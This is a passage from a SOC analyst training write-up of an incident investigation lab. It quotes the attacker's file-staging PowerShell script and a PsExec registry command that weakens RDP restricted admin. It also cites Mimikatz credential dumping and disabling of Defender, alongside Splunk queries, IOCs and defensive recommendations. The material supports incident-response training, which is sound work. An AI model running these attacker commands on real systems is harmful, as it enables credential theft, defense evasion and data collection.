    '*.mdb',    # ← 4th
    '*.accdb',
    '*.vhd',
    '*.vhdx',
    '*.vmdk',
    '*.config',
    '*.xml',
    '*.key',
    '*.pem',
    '*.pfx',
    '*.p12',
    '*.cer',
    '*.crt'
)
```

The first four extensions target **database backups and SQL files** — the highest-value data on a backup server for a banking client.

**Answer:**

```
.bak, .backup, .sql, .mdb
```


---

## Question 14 — What is the full path of the staged file containing collected files?

### Investigation (Script Analysis)

The script's staging and archiving logic:

```powershell
# 1. Create temp staging directory
$tempDir = "$env:TEMP\~BK" + (Get-Random -Maximum 9999)

# 2. Copy matching files to temp dir
# ...

# 3. Compress to ZIP
$archiveName = "sysbackup_" + (Get-Date -Format 'yyyyMMdd')
$archiveZip  = "$env:TEMP\$archiveName.zip"
$archiveTmp  = "$env:TEMP\$archiveName.dat"

Compress-Archive -Path "$tempDir\*" -DestinationPath $archiveZip

# 4. Rename ZIP → .dat (disguise as data file to avoid detection)
Rename-Item -Path $archiveZip -NewName "$archiveName.dat"
```

The archive is renamed from `.zip` to `.dat` — a defense evasion technique that hides the file's true nature from content-type inspection tools. Running on `2025-11-14`, the filename becomes `sysbackup_20251114.dat` stored in `$env:TEMP` of the `bkup-svc` service account:

**Answer:**

```
C:\Users\bkup-svc\AppData\Local\Temp\sysbackup_20251114.dat
```


---

## Full Attack Timeline

| Timestamp (UTC) | Host | Event |
|---|---|---|
| Pre-incident | JP-BROWN-WS | `TravisClart_Resume.pdf.lnk` placed in Downloads |
| ~05:10 | JP-BROWN-WS | `jp.brown` double-clicks LNK → `mshta.exe` executes HTA |
| ~05:11 | JP-BROWN-WS | `RuntimeBroker.exe` dropped to `C:\Windows\Temp\` |
| ~05:11 | JP-BROWN-WS | Registry persistence: `HKCU\...\Run\SystemMonitor` |
| ~05:12 | JP-BROWN-WS | C2 beaconing → `10.10.14.174` |
| ~05:13 | JP-BROWN-WS | `Set-MpPreference -DisableRealtimeMonitoring $true` |
| ~05:14 | JP-BROWN-WS | `Invoke-Mimikatz -DumpCreds` → credentials extracted |
| ~05:18 | JP-BROWN-WS | PsExec64.exe (PID: 6612) → `10.10.152.240` — DisableRestrictedAdmin |
| `2025-11-14 05:19:42` | JP-BROWN-WS → BKUP-SRV01 | RDP lateral movement to `10.10.152.240` |
| ~05:20 | BKUP-SRV01 | `Setup-BackupServer.ps1` executed as `bkup-svc` |
| ~05:21 | BKUP-SRV01 | 16 file types collected from 9 directories |
| ~05:22 | BKUP-SRV01 | Archive created: `sysbackup_20251114.dat` |

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| Host | `JP-BROWN-WS` | Initial access beachhead |
| Host | `BKUP-SRV01` (`10.10.152.240`) | Lateral movement target |
| IP | `10.10.14.174` | Attacker C2 server |
| File | `C:\Users\jp.brown\Downloads\TravisClart_Resume.pdf.lnk` | Malicious LNK dropper |
| File | `C:\Windows\Temp\RuntimeBroker.exe` | Malicious C2 beacon |
| File | `C:\Windows\Temp\Setup-BackupServer.ps1` | Data collection script |
| File | `C:\Users\bkup-svc\AppData\Local\Temp\sysbackup_20251114.dat` | Staged exfiltration archive |
| Registry | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SystemMonitor` | Persistence key |
| Account | `jp.brown` | Compromised user (initial access) |
| Account | `bkup-svc` | Service account used on BKUP-SRV01 |
| PID | `6612` | PsExec64.exe process (lateral movement) |

---

## Splunk Queries Reference

```spl
-- Primary investigation: JP-BROWN-WS command line activity
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*"
| stats count by CommandLine
| sort 0 count
| head 50

-- PsExec lateral movement event
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*"
CommandLine="PsExec64.exe  \\\\10.10.152.240 cmd /c \"reg add HKLM\\System\\CurrentControlSet\\Control\\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f\""

-- RDP connection to BKUP-SRV01
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="JP-BROWN-WS"
Image!="*splunk*" EventCode=3 RuleName=RDP DestinationIp="10.10.152.240"

-- BKUP-SRV01 activity
index=* source="WinEventLog:Microsoft-Windows-Sysmon/Operational" host="BKUP-SRV01"
Image!="*splunk*"
| stats count by CommandLine
| sort 0 count
| head 50
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment |
| Execution | T1204.002 | User Execution: Malicious File (LNK) |
| Execution | T1218.005 | Signed Binary Proxy Execution: Mshta |
| Execution | T1059.001 | PowerShell |
| Persistence | T1547.001 | Boot/Logon Autostart: Registry Run Keys |
| Defense Evasion | T1036.005 | Masquerading: Match Legitimate Name (RuntimeBroker) |
| Defense Evasion | T1562.001 | Impair Defenses: Disable Windows Defender |
| Defense Evasion | T1027 | Obfuscated Files: Extension Masquerading (.dat) |
| Credential Access | T1003.001 | LSASS Memory (Invoke-Mimikatz) |
| Lateral Movement | T1569.002 | System Services: PsExec |
| Lateral Movement | T1021.001 | Remote Services: RDP |
| Collection | T1005 | Data from Local System |
| Collection | T1560.001 | Archive Collected Data: PowerShell Compress-Archive |
| Command & Control | T1071.001 | Web Protocols (C2 beaconing) |

---

## Recommendations

1. **Block LNK execution from Downloads/Temp** — Users should never execute LNK files from Downloads. AppLocker or WDAC rules can block script execution from user-writable directories.
2. **Restrict mshta.exe** — `mshta.exe` has no legitimate business use for most users. Block or heavily monitor its execution via Application Control policies.
3. **Alert on `C:\Windows\Temp\` executable creation** — Any new `.exe` created in `C:\Windows\Temp\` should trigger an immediate EDR alert.
4. **Monitor Registry Run key modifications** — Alert on any write to `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` by non-administrative processes.
5. **Detect Invoke-Mimikatz** — Enable PowerShell Script Block Logging (Event ID 4104) and alert on strings matching `Invoke-Mimikatz`, `DumpCreds`, or `sekurlsa`.
6. **Alert on `DisableRealtimeMonitoring`** — Any `Set-MpPreference` command should trigger a high-severity SIEM alert.
7. **Restrict PsExec** — Block PsExec binaries via application control and alert on any remote service creation (Event ID 7045) from workstations to servers.
8. **Data exfiltration detection** — Hunt for PowerShell `Compress-Archive` commands on servers combined with large file creation events in `%TEMP%` — especially with `.dat` extension.

---

*Writeup produced as part of SOC Analyst training — TryHackMe: Zero Tolerance*